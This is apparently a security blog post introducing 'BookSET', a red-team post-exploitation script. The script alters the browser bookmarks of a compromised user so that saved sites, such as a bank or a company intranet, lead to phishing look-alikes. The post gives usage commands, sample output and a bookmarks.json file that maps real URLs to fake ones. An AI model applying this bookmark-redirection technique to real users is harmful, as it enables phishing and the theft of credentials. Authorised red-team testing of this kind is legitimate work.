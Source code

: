 ```yaml
---
layout: single
title: BookSET - a simple Post-Exploitation Tool
excerpt: #"This scam was funn to found"
date: 2023-03-10
classes: wide
header:
  teaser: /assets/images/bookset/banner.png
  teaser_home_page: true
  icon: #/assets/images/hackthebox.webp
categories:
  - Infosec
tags:  
  - tools
  - redteam
  - post-exploitation
---
```


It's been a while since I didn't dare to create something and this time I bring you this tool that I think can add an interesting result to all those tests that we have as a red team for different companies.

Sometimes when we execute red team exercises, even after having achieved access to a certain level, we need to go a little further, such as obtaining user access credentials and that is why I have thought of this tool.

![](/assets/images/bookset/banner.png)


BookSET - is intended to be able to modify BookMarks mainly for Google Chrome, but tests were done on Edge and Brave Browsers, remember that this script can be used to capture some credentials with Phishing sites or just redirect the "victim" to your EvilServer.

# 🔴: How it works!

Ok... first of all we need to install some libraries:

```bash
pip install -r requirements.txt

```
thats it :D !!

## Help !

if you need to know the parameters from the script pls type:

```bash
python bookSET.py -h


 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


just a simple post-exploitation tool :)

usage: bookSET.py [-h] [-recon] [-replace]

Get and Replace all Urls from Google Chrome BookMarks

optional arguments:
  -h, --help  show this help message and exit
  -recon      Get all URLs Bookmarks
  -replace    Replace URLs Bookmarks


```


## [+] Recon Mode 

If you want to know what BookMarks the target has, then we just need to execute the following command line:
```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|

 
[+] Getting Urls from BookMarks:
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : [5]

```

## [+] Replace Mode

Now that we know all the BookMark that the target has, we can check all the URLs and just make a "fake website"  for each URL that we want ;) :

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


just a simple post-exploitation tool :)

[+] URLs modified:

     [-] https://www.fakebank.com/
     [-] https://intranet.fakecompanie.org/

[+] Total of BookMarks replaced : [2]


```

## [+] bookmarks.json file content

The content of "bookmarks.json" it's easy to understand, the "current_url" it's the URL that we want to change and replace it with "new_url" instead.

```bash

{
    "bookmark_bar": [
      {
        "current_url": "https://www.bank.com/",
        "new_url": "https://www.fakebank.com/"
      },
      {
        "current_url": "https://intranet.companie.org/",
        "new_url": "https://intranet.fakecompanie.org/"
      }
    ]
  }
  
  ```

NOTE: This script was tested for the following Web Browsers:

- Google Chrome
- Edge
- Brave

You just need to change the Browser Path

